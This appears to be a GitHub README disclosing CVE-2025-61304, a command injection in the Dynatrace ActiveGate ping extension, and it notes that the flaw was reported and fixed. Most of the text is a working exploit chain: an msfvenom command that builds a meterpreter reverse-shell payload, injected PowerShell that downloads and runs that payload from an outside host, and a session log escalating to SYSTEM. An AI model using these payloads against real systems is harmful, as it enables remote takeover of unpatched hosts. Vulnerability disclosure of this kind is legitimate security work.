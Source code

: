 # CVE-2025-61304
"OS command injection vulnerability in Dynatrace ActiveGate ping extension up to 1.016 via crafted ip address"

In the background the ping extension is using the command prompt of Windows to perform the ping. The input field for the Test Target Host is also 1024 chars long. After the ip-address you can write additional commands for the ActiveGate to execute, simply by using an '&'.

Reported to Dynatrace and fixed with this commit:
https://github.com/Dynatrace/dynatrace-api/pull/99

Exploit RCE to add user:

<img width="1261" height="957" alt="add_user" src="https://github.com/user-attachments/assets/acbfdc73-fe90-4c29-b106-70a283695230" />

Local user list before and after:

<img width="1274" height="746" alt="exploit" src="https://github.com/user-attachments/assets/344948ae-08d6-431c-9101-aa0be2633998" />

# Other example payloads: 

1. Create a meterpreter reverse shell:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.51.200 LPORT=4444 -f exe > mshell.exe
```

2. Download and Execute the shell on the ActiveGate through the Cloud interface using the ping extension:
```
google&powershell.exe $ProgressPreference = 'SilentlyContinue'; Invoke-WebRequest http://192.168.51.200/mshell.exe -OutFile c:\test\mshell.exe

google&c:\test\mshell.exe

```

3. Resulting session
```
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.51.200:4444 

[*] Sending stage (200262 bytes) to 192.168.51.54
[*] Meterpreter session 3 opened (192.168.51.200:4444 -> 192.168.51.54:49800 ) at 2023-01-21 19:02:16 +0100

meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter > getsystem 
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > sysinfo
Computer        : WIN-9493M3CRTDV
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```
